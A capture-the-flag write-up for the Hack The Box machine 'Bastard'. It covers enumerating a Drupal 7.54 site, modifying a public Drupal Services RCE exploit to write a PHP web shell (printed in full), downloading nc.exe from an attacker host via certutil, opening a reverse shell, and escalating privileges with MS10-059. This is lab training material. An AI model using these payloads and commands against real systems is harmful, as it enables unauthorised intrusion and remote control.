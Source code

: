 ```yaml
---
layout: single
title: "Bastard"
categories: htb
classes: wide
---
```


## Enumeration

First we do the simple nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:
![Bastard Vulnerability](images/bastard1.png)

The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploit [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

![Escalation!](images/root.png)